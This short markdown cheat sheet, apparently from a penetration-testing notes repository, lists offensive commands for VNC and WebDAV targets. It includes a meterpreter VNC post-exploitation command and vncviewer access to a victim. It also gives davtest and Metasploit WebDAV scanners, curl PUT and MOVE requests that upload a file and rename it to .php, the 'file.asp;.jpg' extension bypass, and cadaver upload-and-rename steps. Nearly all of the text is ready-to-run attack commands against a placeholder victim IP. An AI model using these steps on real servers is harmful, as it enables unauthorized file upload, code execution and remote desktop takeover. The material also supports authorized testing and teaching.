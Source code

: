 ## VNC_post_exploitation
```
meterpreter > run vnc
```

## VNC_access
```
sudo apt install tigervnc-viewer
vncviewer [victim_ip]:[victim_port]
```
-------------------------------------------------------------------------------------------------------------------------------------

# Webdav

--------------------------------------------------------------------------------------------------------------------------------

## webdav_scanner
```
davtest-url [victim_url]
davtest -move -senddb auto -url http://[victim_ip]:[victim_port]
```

## metasploit
```
  use auxiliary/scanner/http/webdav_scanner
  use auxiliary/scanner/http/webdav_internal_ip
  use auxiliary/scanner/http/webdav_website_content
```

## webdav_via_curl
```
echo xyz > test.txt
curl -X PUT http://[victim_ip]/test.txt -d @test.txt
curl https://[victim_ip]/test.txt
```

## change_extension 
```
curl -X MOVE -H 'Destination http://[victim_ip/test.php] http://[victim_ip]/test.txt
```

## Semicolen_file_extension_bypassing
```
upload file as file.asp;.jpg
```

## cadaver_tool
```
cadaver http://[victim_ip]/path/
  - dav:/path/> put file.txt
  - dav:/path/> move file.txt file.asp;.txt
```  
